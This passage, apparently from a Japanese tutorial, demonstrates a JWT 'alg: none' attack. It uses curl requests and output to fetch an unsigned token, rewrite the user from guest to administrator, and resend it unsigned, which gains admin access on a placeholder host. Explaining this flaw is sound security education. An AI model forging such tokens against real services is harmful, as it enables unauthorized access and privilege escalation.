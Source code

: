 #### ②トークンを取得

<div class="md-code" style="width:100%">
```
$ curl -v http://example.jp:8080/api/
GET /api/ HTTP/1.1
Host: example.jp:8080

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Thu, 11 May 2017 14:37:51 GMT
Content-Length: 100

{"token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0k.eyJleHAiOjE0OTQ1MTcwNzEsInVzZXIiOiLjgrLjgrnjg4gifQ."}
```
</div>

||base64デコード|
|-|-|
|eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0k|{"alg":"none","typ":"JWT}|
|eyJleHAiOjE0OTQ1MTcwNzEsInVzZXIiOiLjgrLjgrnjg4gifQ|{"exp":1494517071,"user":"ゲスト"}|
|※署名なし|–|

ここで受け取ったトークンをそのまま返しても正常にレスポンスが返ってくるのは確実なので、早速改ざんしたデータを送ってみます。  
  
ここで「ゲスト」を「管理者」という文字列に改ざんしてリクエストを送信したらどうなるでしょうか？
この時に、トークンが発行された時のように、シグネチャはリクエストに含めません。  

||base64エンコード|
|-|-|
|{"exp":1494517071,"user":"管理者"}|eyJleHAiOjE0OTQ1MTcwNzEsInVzZXIiOiLnrqHnkIbogIUifQ==|

#### ③トークンを改ざんして送信

<div class="md-code" style="width:100%">
```
$ curl -v http://example.jp:8080/api/private/ -H "Authorization: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0k.eyJleHAiOjE0OTQ1MTcwNzEsInVzZXIiOiLnrqHnkIbogIUifQ==."
GET /api/private/ HTTP/1.1
Host: example.jp:8080
Authorization: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0k.eyJleHAiOjE0OTQ1MTcwNzEsInVzZXIiOiLnrqHnkIbogIUifQ==.

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Date: Thu, 11 May 2017 14:44:57 GMT
Content-Length: 56

{"message":"こんにちは、「 管理者 」さん"}
```
</div>
